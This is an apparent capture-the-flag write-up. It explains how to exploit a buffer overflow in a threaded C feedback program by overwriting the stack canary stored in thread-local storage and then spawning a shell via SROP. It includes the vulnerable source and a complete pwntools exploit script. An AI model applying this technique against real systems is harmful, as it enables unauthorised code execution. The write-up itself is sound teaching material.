

by 

> You ever heard of the book "To kill a mockingbird"? What about to kill a canary?


This challenge was meant to be a TLS canary overwite challenge and pop shell. 

Looking at the source code of this challenge, we see an obvious buffer overflow since the program doesnt restrict the size of input that we want to give in.

```c
void feedback(){
    int size;
    char buf[100];
    printf("Enter size of message: ");
    scanf("%d",&size); //doesn't check if the size we enter exceeds 100
    while (getchar()!='\n');
    printf("Enter your messaage: ");
    fgets(buf,size,stdin); //buufer overflow
    puts("Your feedback will be noted.\n");
    return;
}
```

However, this program has canary and you can't just overwrite the saved canary as the program checks if the canary has been modified and if it is, it'll say stack smashing detected and crash. But for a very intentional and weird reason, this program also uses threading.

```c
int main(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);	
    printf("Welcome to our feedback service 2.0! Please leave a message with a length of your choice and we will get back to you asap\n");
    printf("This might be useful %p\n",(void *)printf);
    setAlarm();
    pthread_t thread;
    if (pthread_create(&thread,NULL,thread_func,NULL)!=0){
        exit(1);
    }
    pthread_join(thread,NULL);
    return 0;
}
```

We see the program implements threading and also gives us free libc printf leak.

The saved canary is stored in TLS (thread-local storage: you can read about it here https://gcc.gnu.org/onlinedocs/gcc/Thread-Local.html)

Hence, this, combined with the fact I can give whatever size of input (like 3000), I can easily buffer overflow all the way to TLS and overwrite the canary there such that the canary that the thread refers to would be modified in TLS  (fs:0x28) and we could craft our own canary to easily pop shell. Now, we can find the offset to TLS easily using gdb which I think was around 2176 and overwrite the canary at offset 2216 since the canary is stored in fs:0x28. We can construct the payload as the following "A" * OFFSET TO RIP (around like 120) and this also means we are overwritng the canary and saved rbp value. We can then place our pop shell payload (which can either be a pop_rdi in libc + /bin/sh or an SROP payload since pop_rax and syscall gadgets are given). We can then continue ovewriting all the way to TLS and overwrite the saved canary in TLS at offset 2216 with "A"*8 (and this would match the canary near rbp) hence the program would not throw the stack smashing detected error.

However, if you were to simply do this, you're gonna get an error which is _pthread_enable_asynccancel() like the following 



The reason to this is because the pthread_struct within glibc has a self header at fs:0x10 and basically the addres in the self-header gets de-referenced and is stored in rax register and the problem with this is that this address needs to be writeable or else glibc will complain and throw that error i mentioned. You can learn more about this with this link (https://www.theflash2k.me/blog/writeups/aofctf/pwn/birdy101) or the stuff I posted in #pwn of blahajctf discord  So, given that we can calculate the libc base address since we're given a printf leak, we can just calculate a writeable address within libc (can just search in libc using vmmap) and use it to overwrite the address at fs:0x10 (which is at offset 2192). 

With all of these information, we can structure the following payload (im using srop but can also use onegadget/classic ret2libc technique).

```py
from pwn import *

p=process("../dist/./program")
#p=remote("188.166.198.74","30009")
elf=ELF("../dist/./program")
gdb.attach(p)
context(os='linux',arch='amd64')
context.log_level='DEBUG'

libc=ELF("../dist/libc.so.6")

syscall=0x000000000040130f
pop_rax=0x000000000040130d

addr=p.recvuntil(b"useful ")
addr=p.recv(14)
addr=int(addr,16)-libc.sym.printf #calculating libc base address coz ASLR
print(hex(addr))

frame=SigreturnFrame() #defining out sigframe to do system("/bin/sh") call
frame.rax=0x3b
frame.rdi=addr+0x197e34
frame.rsi=0
frame.rsp=0x4040000
frame.rdx=0
frame.rip=syscall

p.sendlineafter(b"size of message:",b"2400")
payload_1=b"A"*120+p64(0x0000000000401016)+p64(pop_rax)+p64(0xf)+p64(syscall)+bytes(frame) #srop payload
payload_1+=b"A"*(2192-len(payload_1)) #we overwriting all the way to tls
#payload_1+=p64(addr+0x01d66c8) #writeable libc addr at pthread struct self header
payload_1+=(2216-len(payload_1))*b"A" #then just overwrite the rest of tls including fs:0x28
payload_1+=b"A"*8

p.sendlineafter(b"Enter your messaage:",payload_1) 

p.interactive() #enjoy shell
```
